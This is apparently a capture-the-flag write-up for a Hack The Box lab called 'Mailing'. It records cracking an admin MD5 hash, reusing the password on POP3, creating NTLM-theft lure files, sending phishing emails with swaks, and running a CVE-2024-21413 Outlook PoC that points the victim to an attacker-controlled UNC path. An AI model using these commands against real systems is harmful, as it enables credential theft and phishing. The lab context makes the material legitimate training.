

Ok we have 2 hashes, one is the administrative password and the other one the hash from the DB.

Can we hack it? Seems like it's a MD5 hash: https://www.hmailserver.com/forum/viewtopic.php?t=31490

```
Host memory required for this attack: 3 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

841bb5acfa6779ae432fd7a4e6600ba7:homenetworkingadministrator
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 841bb5acfa6779ae432fd7a4e6600ba7
Time.Started.....: Mon May  6 12:21:56 2024 (5 secs)
Time.Estimated...: Mon May  6 12:22:01 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1766.3 kH/s (0.58ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 7563264/14344385 (52.73%)
Rejected.........: 0/7563264 (0.00%)
Restore.Point....: 7557120/14344385 (52.68%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: honey@85 -> home38119

Started: Mon May  6 12:21:43 2024
Stopped: Mon May  6 12:22:02 2024
```

&nbsp;I also tried to crack the password hash from MSQL db but it was a dead end!

```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Approaching final keyspace - workload adjusted.           

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 0 (MD5)
Hash.Target......: 0a9f8ad8bf896b501dde74f08efd7e4c
Time.Started.....: Mon May  6 12:29:18 2024 (4 secs)
Time.Estimated...: Mon May  6 12:29:22 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3716.4 kH/s (0.24ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[216361726f6c796e] -> $HEX[042a0337c2a156616d6f732103]

Started: Mon May  6 12:29:18 2024
Stopped: Mon May  6 12:29:23 2024
```

# EMAIL

Since we have some instructions on how to reach the email let's try to use the credentials from the pdf:




But credentials are wrong:



I also tried the same credentials for Ruy/Maya and Gregory but it's working which is clear that we need to use the LFI first?

Now we have some credentials, can we use those to access the email of some of the usernames but it isn't working at all!

&nbsp;

# POP3/POP3s

Let's see if we can re-use the credentials of Administrator to reach the POP3 service via CmdLine?

After severak tests I was able to determine that the credentials worked on POP3 for Administrator@mailing.htb:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Mailing]
└─# telnet mailing.htb 110
Trying 10.10.11.14...
Connected to mailing.htb.
Escape character is '^]'.
+OK POP3
USER roy@mailing.htb
+OK Send your password
PASS homenetworkingadministrator
-ERR Invalid user name or password.

-ERR Invalid command in current state.
USER user@mailing.htb
+OK Send your password
PASS homenetworkingadministrator
-ERR Invalid user name or password.

-ERR Invalid command in current state.

-ERR Invalid command in current state.
USER maya@mailing.htb
+OK Send your password
PASS homenetworkingadministrator
-ERR Invalid user name or password.

-ERR Invalid command in current state.

-ERR Invalid command in current state.
admin
-ERR Invalid command in current state.
USER culo
+OK Send your password
PASS culo
-ERR Invalid user name or password. Please use full email address as user name.

-ERR Invalid command in current state.
USER administrator     
+OK Send your password
PASS homenetworkingadministrator
-ERR Invalid user name or password. Please use full email address as user name.

-ERR Invalid command in current state.

-ERR Invalid command in current state.
USER administrator@mailing.htb
+OK Send your password
PASS homenetworkingadministrator
+OK Mailbox locked and ready

-ERR Invalid command in current state.
STAT               
+OK 3 1312
```

As we can see there are 3 avaiable mails:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Mailing]
└─# telnet mailing.htb 110                                                                                                                                                                                                                                   
Trying 10.10.11.14...
Connected to mailing.htb.
Escape character is '^]'.
+OK POP3
USER administrator@mailing.htb
+OK Send your password
PASS homenetworkingadministrator
+OK Mailbox locked and ready
LIST
+OK 3 messages (1312 octets)
1 435
2 438
3 439
.
```

But all of them seems letfovers?

```
LIST
+OK 3 messages (1312 octets)
1 435
2 438
3 439
.

-ERR Invalid command in current state.
RETR 1
+OK 435 octets
Return-Path: administrator@mailing.htb
Received: from kali (Unknown [10.10.14.24])
        by mailing.htb with ESMTPA
        ; Mon, 6 May 2024 11:08:47 +0200
Date: Mon, 06 May 2024 11:08:45 +0200
To: ruy@mailing.htb,maya@mailing.htb,gregory@mailing.htb,administrator@mailing.htb,
From: administrator@mailing.htb
Subject: test
Message-Id: <20240506110845.363066@kali>
X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/

please click here http://10.10.14.24/from_mail


.

-ERR Invalid command in current state.
RETR 2   
+OK 438 octets
Return-Path: administrator@mailing.htb
Received: from kali (Unknown [10.10.14.24])
        by mailing.htb with ESMTPA
        ; Mon, 6 May 2024 11:13:48 +0200
Date: Mon, 06 May 2024 11:13:46 +0200
To: ruy@mailing.htb,maya@mailing.htb,gregory@mailing.htb,administrator@mailing.htb,
From: administrator@mailing.htb
Subject: New fileshare
Message-Id: <20240506111346.381169@kali>
X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/

please click here \10.10.14.24\from_mail


.

-ERR Invalid command in current state.
RETR 3
+OK 439 octets
Return-Path: administrator@mailing.htb
Received: from kali (Unknown [10.10.14.24])
        by mailing.htb with ESMTPA
        ; Mon, 6 May 2024 11:14:00 +0200
Date: Mon, 06 May 2024 11:13:58 +0200
To: ruy@mailing.htb,maya@mailing.htb,gregory@mailing.htb,administrator@mailing.htb,
From: administrator@mailing.htb
Subject: New fileshare
Message-Id: <20240506111358.381773@kali>
X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/

please click here \\10.10.14.24\from_mail


.
```

&nbsp;Now since even on IMAP I couldn't found more I guess sending a new email is the way to go and sniff the hash!

```
msf6 auxiliary(scanner/smtp/smtp_relay) > show options 

Module options (auxiliary/scanner/smtp/smtp_relay):

   Name      Current Setting            Required  Description
   ----      ---------------            --------  -----------
   EXTENDED  false                      yes       Do all the 16 extended checks
   MAILFROM  administrator@mailing.htb  yes       FROM address of the e-mail
   MAILTO    maya@mailing.htb           yes       TO address of the e-mail
   RHOSTS    mailing.htb                yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     25                         yes       The target port (TCP)
   THREADS   1                          yes       The number of concurrent threads (max one per host)


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/smtp/smtp_relay) > run

[+] 10.10.11.14:25        - SMTP 220 mailing.htb ESMTP\x0d\x0a
[*] 10.10.11.14:25        - No relay detected
[*] mailing.htb:25        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smtp/smtp_relay) >
```

I will use ntml_theft to generate some malicious files to get my hash and setup a listener on my machine via Responder.

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Mailing/ntlm_theft]
└─# python3 ntlm_theft.py -g all -s 10.10.16.11 -f invoice
Created: invoice/invoice.scf (BROWSE TO FOLDER)
Created: invoice/invoice-(url).url (BROWSE TO FOLDER)
Created: invoice/invoice-(icon).url (BROWSE TO FOLDER)
Created: invoice/invoice.lnk (BROWSE TO FOLDER)
Created: invoice/invoice.rtf (OPEN)
Created: invoice/invoice-(stylesheet).xml (OPEN)
Created: invoice/invoice-(fulldocx).xml (OPEN)
Created: invoice/invoice.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: invoice/invoice-(includepicture).docx (OPEN)
Created: invoice/invoice-(remotetemplate).docx (OPEN)
Created: invoice/invoice-(frameset).docx (OPEN)
Created: invoice/invoice-(externalcell).xlsx (OPEN)
Created: invoice/invoice.wax (OPEN)
Created: invoice/invoice.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: invoice/invoice.asx (OPEN)
Created: invoice/invoice.jnlp (OPEN)
Created: invoice/invoice.application (DOWNLOAD AND OPEN)
Created: invoice/invoice.pdf (OPEN AND ALLOW)
Created: invoice/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: invoice/Autorun.inf (BROWSE TO FOLDER)
Created: invoice/desktop.ini (BROWSE TO FOLDER)
Generation Complete.
```

And after several tests seems like we need to use authentication to send email to ROY/MAYA/GREGORY

```
swaks --to $(cat emails | tr '\n' ',' | less) --from administrator@mailing.htb --header "Subject: Invoice" --body "please click here http://10.10.16.11/" --server mailing.htb --auth-user administrator@mailing.htb --auth-pass "homenetworkingadmi
istrator" --to $(cat emails | tr '\n' ',' | less) --from administrator@mailing.htb --header "Subject: Invoice" --body "please click here http://10.10.16.11/" --server mailing.htb --auth-user administrator@mailing.htb --auth-pass "homenetworkingadmini
=== Trying mailing.htb:25...
=== Connected to mailing.htb.
<-  220 mailing.htb ESMTP
 -> EHLO DESKTOP-1KSM320.
<-  250-mailing.htb
<-  250-SIZE 20480000
<-  250-AUTH LOGIN PLAIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> YWRtaW5pc3RyYXRvckBtYWlsaW5nLmh0Yg==
<-  334 UGFzc3dvcmQ6
 -> aG9tZW5ldHdvcmtpbmdhZG1pbmlzdHJhdG9y
<-  235 authenticated.
 -> MAIL FROM:<administrator@mailing.htb>
<-  250 OK
 -> RCPT TO:<roy@mailing.htb>
<-  250 OK
 -> RCPT TO:<maya@mailing.htb>
<-  250 OK
 -> RCPT TO:<gregory@mailing.htb>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Mon, 06 May 2024 13:20:44 +0200
 -> To: roy@mailing.htb,maya@mailing.htb,gregory@mailing.htb,
 -> From: administrator@mailing.htb
 -> Subject: Invoice
 -> Message-Id: <20240506132044.010743@DESKTOP-1KSM320.>
 -> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
 -> 
 -> please click here http://10.10.16.11/
 -> 
 -> 
 -> .
<-  250 Queued (1.032 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```

Let's try to send email directly from thunderbird with the attachments from ntlm theft!



But it isn't working so I checked for tips and apparently there is a fresh CVE that targets Outlook which leads to NTML sniff.



See here: https://www.bleepingcomputer.com/news/security/new-critical-microsoft-outlook-rce-bug-is-trivial-to-exploit/

And there is a POC working! https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability

And after several tests seems like it worked with only Mary account as we guessed! (we guessed it from the instruction pdf actually)

```
���������(root���DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Mailing/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability]
������# python3 CVE-2024-21413.py --server "mailing.htb" --port 587 --username "administrator@mailing.htb" --password "homenetworkingadministrator" --sender "administrator@mailing.htb" --recipient "maya@mailing.htb" --url "\\10.10.16.17\invoice" --subject "Invoice"

CVE-2024-21413 | Microsoft Outlook Remote Code Execution Vulnerability PoC.
Alexander Hagenah / @xaitax / ah@primepage.de

��� Email sent successfully.
```

Here I had several issues with the host that wasn't behaving so I had to reset to the release arena version!

&nbsp;

&nbsp;

&nbsp;